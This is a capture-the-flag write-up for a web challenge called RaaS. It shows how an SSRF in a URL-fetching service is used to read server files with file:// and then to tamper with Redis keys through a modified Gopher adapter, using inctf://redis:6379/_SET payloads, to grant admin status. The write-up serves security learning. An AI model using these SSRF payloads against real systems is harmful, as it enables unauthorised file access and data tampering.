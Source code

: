 ```yaml
---
description: SSRF using Gopher protocol leads to tampering of Redis key-value store
---
```


# RaaS

## Challenge

**Description:** Since everything is going online, I decided to make an easy Requests as a Service Bot to make life easier, but I seem to have messed up oops!!!

**Author:** [Capt-k](https://twitter.com/Captainkay11)

## Solution

### Local File Inclusion

We are able to enter a URL for the server to request. A pretty trivial LFI vulnerability exists as a result of SSRF, allowing us to view files using the `file://` protocol.

![](<../../.gitbook/assets/Screenshot 2021-08-16 at 6.59.26 PM.png>)

Since we're provided with the Dockerfile, we know that the server code is in `/code/app.py`.

```
ADD flask-server /code
WORKDIR /code
RUN pip install -r requirements.txt
CMD ["python", "app.py"]
```

Thus, we can request `file:///code/app.py` to view the server code.

```http
POST / HTTP/1.1
Host: web.challenge.bi0s.in:6969
Content-Length: 33

...

url=file%3A%2F%2F%2Fcode%2Fapp.py
```

Immediately, we see that a Redis database is used. The hostname is `redis`, and it is listening on port 6379.

If a POST request is received, the `Requests_On_Steroids` function, which we will analyze later, is used to fetch the URL. Otherwise, the `<userID>_isAdmin` key in the Redis database is checked. If the value is "yes", then the flag is shown in the response.

```python
from flask import Flask, request,render_template,request,make_response
import redis
import time
import os
from utils.random import Upper_Lower_string
from main import Requests_On_Steroids
app = Flask(__name__)

# Make a connection of the queue and redis
r = redis.Redis(host='redis', port=6379)
#r.mset({"Croatia": "Zagreb", "Bahamas": "Nassau"})
#print(r.get("Bahamas"))
@app.route("/",methods=['GET','POST'])
def index():
    if request.method == 'POST':
        url = str(request.form.get('url'))
        resp = Requests_On_Steroids(url)
        return resp
    else:   
        resp = make_response(render_template('index.html'))
        if not request.cookies.get('userID'):
            user=Upper_Lower_string(32)
            r.mset({str(user+"_isAdmin"):"false"})
            resp.set_cookie('userID', user)
        else:
            user=request.cookies.get('userID')
            flag=r.get(str(user+"_isAdmin"))
            if flag == b"yes":
                resp.set_cookie('flag',str(os.environ['FLAG']))
            else:
                resp.set_cookie('flag', "NAAAN")
        return resp

if __name__ == "__main__":
    app.run('0.0.0.0')
```

It appears that we would have to overwrite our `<userID>_isAdmin` value. Since we have a SSRF vulnerability, we might be able to leverage it to communicate with the Redis instance.

### Redis Over Gopher

In `main.py`, we can see that the `Requests_On_Steroids` function supports the Gopher protocol. Using Gopher, we can communicate with any TCP server (but of course, we would have to follow the service's higher-layer protocol). 

However, instead of `gopher://`, we must use `inctf://` instead.

```python
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os
from modules.Gophers import GopherAdapter 
from modules.files import LocalFileAdapter 


def Requests_On_Steroids(url):
    try:
        s = requests.Session()
        s.mount("inctf:", GopherAdapter())
        s.mount('file://', LocalFileAdapter())
        resp = s.get(url)
        assert resp.status_code == 200
        return(resp.text)
    except:
        return "SOME ISSUE OCCURED"
    

#resp = s.get("butts://127.0.0.1:6379/_get dees")
```

In `modules/Gophers.py`, we find the `GopherAdapter` code.

```python
import requests, re, io, socket
from urllib.parse import urlparse, unquote_plus
import os

...

class GopherAdapter(requests.adapters.BaseAdapter):

    ...

    def _connect_and_read(self, parsed):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(self._netloc_to_tuple(parsed.netloc))
        msg = parsed.path.replace('/_','')
        if hasattr(parsed, "query"):
            msg += "\t" + parsed.query
        msg += "\r\n"
        print(bytes(msg, 'utf-8'))
        s.sendall(bytes(msg, 'utf-8'))
        f = s.makefile("rb")
        res = b""
        data = f.readline()
        print(data)
        f.close()
        return res

    ...
```

With some Googling, we can find out that the Gopher adapter was actually modified from this [GitHub gist](https://gist.github.com/MineRobber9000/24c87d3fb50d0b942989cbe4d4da7e73). I wanted to find out if any changes was made from the original script, so I diff-ed the two scripts.

![](../../.gitbook/assets/upload\_0c5ea44b408970eff89e390b45d2dae1.png)

Interestingly,  a line of code was modified to remove `/_` in the URL's path.

```python
msg = parsed.path.replace('/_','')
```

Ideally, we would send multi-line input using the [RESP protocol](https://redis.io/topics/protocol), but this wouldn't work because `urllib.parse` was updated to [strip newline characters](https://docs.python.org/3.6/library/urllib.parse.html#module-urllib.parse). 

Redis also offers inline commands, allowing us to send our commands directly, but without the above change, our inline commands (`parsed.path`) would still look like this:

```
/SET <userID>_isAdmin "yes"
```

The `/SET` command is unrecognized, leading to an error. Instead, we can leverage the replacement using the following payload:

```
url=inctf://redis:6379/_SET <userID>_isAdmin "yes"
```

The path, when replaced, would be

```
SET <userID>_isAdmin "yes"
```

which sets our `<userID>_isAdmin` value to "yes".

![](<../../.gitbook/assets/image (44).png>)

This gives us the flag: `inctfi{IDK_WHY_I_EVEN_USED_REDIS_HERE!!!}`
